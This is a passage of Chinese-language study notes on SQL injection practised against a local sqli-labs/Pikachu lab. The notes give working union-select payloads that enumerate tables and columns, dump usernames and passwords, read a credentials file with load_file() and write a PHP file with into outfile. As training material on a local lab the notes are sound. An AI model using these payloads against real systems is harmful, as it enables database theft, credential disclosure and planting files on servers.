 *   `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'pikachu'`获取特定数据库表名
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMht5Uwj1n312UibcEYGP3bfrZdtVzEMU8GuecPF9XjxyOn7NhZicuTjm9g%2F640%3Fwx_fmt%3Dpng)
    
*   `127.0.0.1:8888/Less-2/?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' and table_schema = 'pikachu'`获取特定数据库特定表列数据
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhCicO1DRSayuY6tM3mQJibibN5icUAxydSnibC7ibLkhdyJysIJCz1ExHg5BQ%2F640%3Fwx_fmt%3Dpng)
    
*   `http://127.0.0.1:8888/Less-2/?id=-1 union select 1,username,password from pikachu.users`查询user的数据
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhnicvMpjJVxCndA9mcnQufKWicyksy4LL87cqGra9F8yfbVk3osTetCKA%2F640%3Fwx_fmt%3Dpng)
    

`文件读写操作-
load_file():读取函数-
into outfile或iinto dumpfile:导出函数-
获取路径的常见方法-
报错显示、遗留文件、漏洞报错、平台配置文件、爆破等、-
`

*   `http://127.0.0.1:8888/Less-2/?id=-1%20union%20select%201,load_file(%27D:\\Software\\PhpStudy\\phpstudy_pro\\WWW\\sqli-labs-master\\sql-connections\\db-creds.inc%27),3`读取本地文件
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhibmrRlres9iaejeOm9HxakhW7aFnrUe1UDbpE4bAQMJj9Zh0YO5dpNAA%2F640%3Fwx_fmt%3Dpng)
    
*   `http://127.0.0.1:8888/Less-2/?id=-1%20union%20select%201,%20%27x%27%20,3%20into%20outfile%20%27D:\\x.php%27%20--+`本地文件写入
    
*   ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhOskBhKMcqWWiaFXvOoxaTSvHEfQgL0QGdH6StWzDdky0SSzr5D5Tviag%2F640%3Fwx_fmt%3Dpng)
    
*   magic\_quotes\_gpc
    
*   当magic\_quotes\_gpc = On时，输入数据中含单引号（’）、双引号（”）、反斜线（\\）与 NULL（NULL 字符）等字符，都会被加上反斜线
    

## P14. SQL注入之类型提交注入

**在真实SQL注入安全测试中，我们一定要先明确提交数据及提交方法后再进行注入，其中提交数据类型和提交方法可以通过抓包分析获取,后续安全测试中我们也必须满足同等的操作才能进行注入。**

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJicy3sln0zHKTBrAacxk8bMhicYZ6kDpHTLqo1Pfzoia3dcgHt0HxnicYfCFroG2B39AjC55luJpiavuZw%2F640%3Fwx_fmt%3Dpng)

`#简要明确参数类型-
数字，字符，搜索，JSON等-
数字可以直接加在sql中-
字符就要通过单双引号接入sql语句中
